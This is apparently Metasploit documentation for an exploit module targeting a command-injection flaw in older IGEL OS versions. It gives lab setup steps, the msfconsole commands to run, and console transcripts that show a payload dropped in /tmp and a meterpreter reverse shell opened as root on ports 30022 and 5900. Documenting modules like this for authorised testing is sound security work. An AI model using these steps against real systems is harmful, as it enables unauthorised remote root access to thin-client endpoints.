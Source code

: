## Vulnerable Application

IGEL OS before 11.04.270 and 10.06.220 are vulnerable to remote command execution into a `system()` call via Secure Terminal and Secure Shadow services.

This module uses the vulnerability to modify certain systemd limits for the targeted service before transfering the payload; this is done to increase payload transfer throughput and preserve service stability.  After exploitation these changes are reverted.

Secure Terminal/telnet_ssl_connector:   30022/tcp
Secure Shadow/vnc_ssl_connector:        5900/tcp


## Verification Steps

Download Vulnerable IGEL OS version (e.g. 11.04.130) from: https://www.igel.com/software-downloads/workspace-edition/.

Unpack downloaded zip file and create a VM using the included .iso.

Navigate through the installation menus to install the firmware, reboot when prompted

After rebooted work through the presented configuration wizard.  In the Activation section use the starter license (selected by default).  Skip the ICG Agent Setup.  Upon completion the system will reboot again.

### Turn on vulnerable services

1. Click on the launcher menu
2. Click on the gear icon
3. Select "Setup" from the Application menu to launch the Setup app
4. To enable vulnerable VNC service wrapper: Under the configuration menu on the left Navigate to: System > Remote Access > Shadow.  Ensure "Allow remote shadowing" and "Secure mode" are checked.
5. To enable vulnerable terminal wrapper: Under the configuration menu on the left Navigate to: System > Remote Access > Secure Terminal. Ensure "Secure Terminal" is checked.

### Exploitation

1. start msfconsole
2. `use exploit/linux/misc/igel_command_injection`
3. `set RHOST [TARGET IP]`
4. `set RPORT [30022 or 5900]`
5. `set LHOST [LOCAL IP]`
6. `exploit`

### Misc

To obtain the IGEL's IP address to test against click the up/down arrows on the right side of the task bar then click "More Details".  A shell is available on a virtual console by ctrl+alt+F11, switch back to the GUI with ctrl+alt+F1.

This module has been successfully tested against IGEL OS 11.04.130 and 10.05.500.

## Options

## Scenarios

### IGEL OS 11.04.130

Targeting the Secure Terminal service (30022/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.224
RHOST => 192.168.120.224
msf6 exploit(linux/misc/igel_command_injection) > check
[*] 192.168.120.224:30022 - The target appears to be vulnerable.
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.service StartLimitBurst
[*] 192.168.120.224:30022 - Overriding igel-telnet-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.224:30022 - Writing payload to file /tmp/CPr9.
[*] 192.168.120.224:30022 - Executing payload /tmp/CPr9.
[*] 192.168.120.224:30022 - Removing payload file /tmp/CPr9.
[*] Sending stage (39324 bytes) to 192.168.120.224
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.224:48130) at 2021-03-25 12:29:45 -0400
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.service
[*] 192.168.120.224:30022 - Removing override for igel-telnet-ssl-connector.socket

meterpreter > getuid
Server username: root
meterpreter > 
```

### IGEL OS 10.05.500

Targeting the Secure Shadowing service (5900/tcp):

```
msf6 > use exploit/linux/misc/igel_command_injection 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/igel_command_injection) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/igel_command_injection) > set RHOST 192.168.120.226
RHOST => 192.168.120.226
msf6 exploit(linux/misc/igel_command_injection) > set RPORT 5900
RPORT => 5900
msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.120.225:4444 
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.service StartLimitBurst
[*] 192.168.120.226:5900 - Overriding igel-vnc-ssl-connector.socket TriggerLimitBurst
[*] 192.168.120.226:5900 - Writing payload to file /tmp/lSmU.
[*] 192.168.120.226:5900 - Executing payload /tmp/lSmU.
[*] 192.168.120.226:5900 - Removing payload file /tmp/lSmU.
[*] Sending stage (39328 bytes) to 192.168.120.226
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.service
[*] 192.168.120.226:5900 - Removing override for igel-vnc-ssl-connector.socket
[*] Meterpreter session 1 opened (192.168.120.225:4444 -> 192.168.120.226:55144) at 2021-03-25 12:48:34 -0400

meterpreter > getuid
Server username: root
meterpreter > 
```
